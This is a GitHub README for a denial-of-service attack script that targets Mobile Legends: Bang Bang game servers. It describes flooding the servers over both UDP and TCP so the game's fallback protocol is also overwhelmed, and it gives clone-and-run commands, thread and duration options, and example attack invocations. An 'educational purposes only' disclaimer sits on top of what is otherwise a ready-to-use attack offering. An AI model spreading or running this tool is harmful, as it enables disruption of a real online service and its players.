 <p align="center"><img src="https://i.imgur.com/6WaJAdA.png" width="187px" height="125px"></p>
<h1 align="center">MLGB (Mobile Legends: Gang Bang)</h1>

<h5 align="center">Attack script for MLBB (Mobile Legends: Bang Bang) game servers.</h5>
<em><h6 align="center">This script is provided for educational purposes only. Unauthorized use against servers without explicit permission is illegal and unethical. The authors of this script are not responsible for any misuse.</h6></em>

<p align="center"><img src="https://i.imgur.com/anFgJFI.png"></p>

## Overview
**MLGB** is a Denial of Service (DoS) attack script specifically developed to disrupt the game servers of MLBB. It leverages both UDP and TCP flooding techniques to overwhelm the target server, potentially causing lag, disconnections, or even crashes.

## Why TCP?
While MLBB primarily uses UDP for communication, the game automatically switches to TCP if the UDP connection becomes unstable or fails. This script is designed to exploit that by attacking both protocols, ensuring the server remains overloaded even after protocol switching.

## Get Started
```shell script
git clone https://github.com/v9lu/mlgb.git
cd mlgb
python3 mlgb.py --target <ip:port>
```

## Options
```shell script
--help (-h) # Show help message
--target (-t) # IP:port of the target server
--udp_thread_count (-utc) # Number of UDP attack threads (default: 25)
--tcp_thread_count (-ttc) # Number of TCP attack threads (default: 25)
--udp_duration (-ud) # UDP attack duration in seconds (default: 300)
--tcp_duration (-td) # TCP attack duration in seconds (default: 300)
```

## Example Usage
1. **Basic Attack**: 25 threads for UDP and TCP attacks, 5 minutes duration on a server with IP `192.168.1.100` and port `5000`:
```shell script
python3 mlgb.py -t 192.168.1.100:5000
```
2. **Increased Threads**: 30 threads for UDP attack and 50 threads for TCP attack on the same server:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -utc 30 -ttc 50
```
3. **Short Attack**: 25 threads for UDP and TCP attacks, each lasting 1 minute:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -ud 60 -td 60
```
